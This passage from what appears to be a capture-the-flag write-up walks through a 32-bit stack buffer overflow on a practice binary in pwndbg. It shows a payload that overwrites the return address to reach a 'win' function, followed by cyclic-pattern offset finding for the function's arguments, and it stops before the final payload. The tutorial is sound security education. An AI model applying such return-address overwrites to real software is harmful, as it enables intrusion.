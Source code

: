 ```
pwndbg> x $ebp+0x8
0x6261616b:	<error: Cannot access memory at address 0x6261616b>
```

The `x` command is short for examine, and it examines the address at $ebp+0x8.
Since we didn't get to `win`, I guess that the `win` stack was deleted and the program exited, so let's reinitiate with an offset of 112.

```
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08BBBBBBBBBBBBBBBBBBBBBBBBB")
Starting program: /home/hyperboly/Downloads/bufover2/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08BBBBBBBBBBBBBBBBBBBBBBBBB")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x0804929e in win ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x8e
*EBX  0x41414141 ('AAAA')
*ECX  0xf7e458a0 ◂— 0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x80493f0 (__libc_csu_init) ◂— endbr32 
*EBP  0xffffd4dc ◂— 'AAAABBBBBBBBBBBBBBBBBBBBBBBBB'
*ESP  0xffffd4d8 ◂— 'AAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBB'
*EIP  0x804929e (win+8) ◂— sub esp, 0x54
```

In this case, I just sent a few Bs in there because it was easier than copy pasting the cyclic.
I also made a breakpoint at `win` because otherwise it would've exited the program which would mess up the registers.
So let's see if $ebp+0x8 and $ebp+0xc has changed.

```
pwndbg> x/s $ebp+0x8
0xffffd4e4:	'B' <repeats 21 times>
pwndbg> x/s $ebp+0xc
0xffffd4e8:	'B' <repeats 17 times>
```

We've overflowed the addresses, which means we just have to find the offset of these.
Again, using a de-bruijn-sequence we can find the offset from win.

```
pwndbg> cyclic 112
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab
pwndbg> cyclic 50
pwndbg> r <<< $(echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04\x08aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama")
pwndbg> x/s $ebp+0x8
0xffffd4e4:	"baaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama"
pwndbg> x/s $ebp+0xc
0xffffd4e8:	"caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama"
pwndbg> cyclic -l baaa
Finding cyclic pattern of 4 bytes: b'baaa' (hex: 0x62616161)
Found at offset 4
pwndbg> cyclic -l caaa
Finding cyclic pattern of 4 bytes: b'caaa' (hex: 0x63616161)
```
